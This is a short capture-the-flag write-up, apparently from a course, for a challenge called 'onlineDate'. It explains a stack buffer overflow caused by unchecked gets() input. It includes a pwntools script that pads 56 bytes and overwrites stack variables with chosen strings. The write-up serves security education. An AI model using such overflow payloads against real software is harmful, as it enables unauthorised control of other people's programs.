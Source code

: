 # onlineDate

### Description
What about updating your profile information?

### Rules
- Do not patch this binary.
- Do not modify or delete the flag.txt file.
- You MUST solve the challenge by providing valid inputs.
- You CANNOT just jump with the debugger to any function that directly prints the flag.
- If you think you're breaking these rules with your solution, please ask the teachers.

## Solution
We have a trivial buffer overflow vulnerability, we just need to overwrite some stack variables with the correct values.
The input length isn't checked due to the use of `gets()` for handling user input, the target buffer is 56 bytes long, its content aren't checked against anything so we can just fill it with `A`s.
The only important thing here is overwriting the variables with the correct value and in the correct order (that's easily checked by looking at the variables position in the stack).

```python
from pwn import *

payload = b'A'* 56 + b'Gerard_Pique' + b'Clara_C.' + b'TwingoOo' + b'CasioOo!'

# r = gdb.debug('./onlineDating')
r = process('./onlineDating')
r.sendlineafter(b'Please tell us how to update it (max 50 char):', payload)
r.interactive()
```

### Flag
```plain

```